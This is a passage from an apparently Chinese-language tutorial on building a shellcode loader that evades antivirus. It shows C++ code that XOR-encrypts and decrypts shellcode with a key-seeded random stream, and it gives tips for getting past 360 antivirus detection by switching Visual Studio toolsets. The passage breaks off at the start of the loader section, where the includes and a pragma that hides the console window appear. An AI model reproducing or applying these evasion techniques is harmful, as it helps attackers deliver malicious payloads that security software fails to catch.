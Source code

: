    unsigned char* decrypt(unsigned char* input, int len, unsigned int key) {  
        unsigned char* output = new unsigned char[len];  
        srand(key);  
        for (int i = 0; i < len; i++) {  
            output[i] = input[i] ^ (rand() % len + 1);  
            output[i] = output[i] ^ key;  
        }  
        return output;  
    }  
      
    int main() {  
        // 加密前的shellcode  
        unsigned char input[] = "..."   
    // 6位数的密钥  
        unsigned int key = 454545;  
        int len = sizeof input - 1;  
      
        cout << "Original message: " << input << endl;  
      
        unsigned char* encrypted = encrypt(input, len, key);  
        cout << "Encrypted message: ";  
        for (int i = 0; i < len; i++)  
            printf("\\x%x", encrypted[i]);  
        cout << endl;  
      
        unsigned char* decrypted = decrypt(encrypted, len, key);  
        cout << "Decrypted message: ";  
        for (int i = 0; i < len; i++)  
            printf("%c", decrypted[i]);  
      
        delete[] encrypted;  
        delete[] decrypted;  
      
        return 0;  
    }  
      
    

具体加密算法就是，先进行异或加密，之后根据key生成随机值再来一次异或加密。

生成后的加密code

![](https://gitee.com/fuli009/images/raw/master/public/20230622113355.png)

还有就是一个vs工具集的东西，vs2022反正很多已经被360智能学习日常误杀了，编译hello也一样。反正vs的东西都换换玩说不定有惊喜

![](https://gitee.com/fuli009/images/raw/master/public/20230622113357.png)

## 3.2.加载器实现

    
    
    #include <iostream>  
    #include <Winsock2.h>  
    #include <iphlpapi.h>  
    #include<Windows.h>  
    #include <chrono>  
    #include <thread>  
    #include<winhttp.h>  
    #pragma comment(lib,"Winhttp.lib")  
    #pragma comment(lib, "iphlpapi.lib")  
    #pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"" ) // 设置入口地址  
    using namespace std;  
      
